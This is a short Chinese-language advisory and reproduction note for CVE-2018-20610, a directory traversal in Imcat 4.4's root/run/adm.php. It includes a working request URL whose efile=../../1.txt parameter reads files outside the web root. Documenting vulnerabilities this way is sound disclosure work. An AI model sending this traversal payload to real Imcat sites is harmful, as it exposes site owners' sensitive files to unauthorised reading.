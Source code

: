 （CVE-2018-20610）Imcat 4.4 敏感信息泄露
========================================

一、漏洞简介
------------

imcat是一套基于PHP的开源建站系统。 imcat
4.4版本中的root/run/adm.php文件存在目录遍历漏洞。目前尚无此漏洞的相关信息，请随时关注CNNVD或厂商公告。

二、漏洞影响
------------

imcat 4.4

三、复现过程
------------

先在D盘创建1.txt

![](./.resource/(CVE-2018-20610)Imcat4.4敏感信息泄露/media/rId24.png)

    http://www.0-sec.org/root/run/adm.php?admin-ediy&part=edit&dkey=runs&dsub=&efile=../../1.txt&dialog=1546054963116&lang=cn

![](./.resource/(CVE-2018-20610)Imcat4.4敏感信息泄露/media/rId25.png)

参考链接
--------

> <https://github.com/AvaterXXX/CVEs/blob/master/imcat.md>
